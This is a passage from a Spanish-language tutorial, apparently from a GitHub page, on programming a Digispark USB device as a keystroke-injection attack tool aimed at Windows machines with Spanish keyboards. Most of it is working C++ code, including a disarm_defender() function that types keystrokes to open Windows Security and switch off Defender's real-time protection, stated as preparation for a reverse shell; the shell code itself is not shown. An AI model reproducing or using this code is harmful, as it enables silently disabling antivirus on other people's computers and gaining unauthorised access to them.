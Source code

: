 Con esto ya podemos explotar sistemas españoles(o usando una distribución de teclado española).

### Picando código
Al principio del archivo se importa la librería `DigiKeyboard.h` y se definen distintas teclas que usaremos más tarde (Esc, Tab, Space).
```cpp
#include "DigiKeyboard.h"

#define KEY_ESC     41 
#define KEY_TAB     43
#define KEY_SPACE   44
```

Inicializamos el LED para que nos informe al terminar el ataque y lo dejamos apagado.
```cpp
void setup() {
  pinMode(1, OUTPUT);
  digitalWrite(1, LOW);
}
```
 
Para poder crear una reverse shell deberemos de desactivar Windows Defender, de esto se encarga la función `disarm_defender()`.

```cpp
void disarm_defender() {
  // abre el buscador de windows
  DigiKeyboard.sendKeyStroke(KEY_ESC, MOD_CONTROL_LEFT);
  DigiKeyboard.delay(700);

  // abre la configuración de seguridad
  DigiKeyboard.print(F("seguridad"));
  DigiKeyboard.delay(700);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);

  // deshabilita la protección a tiempo real
  DigiKeyboard.sendKeyStroke(KEY_TAB);
  DigiKeyboard.sendKeyStroke(KEY_TAB);
  DigiKeyboard.sendKeyStroke(KEY_TAB);
  DigiKeyboard.sendKeyStroke(KEY_TAB);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_SPACE);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);

  // cierra la ventana
  DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);
  }
```
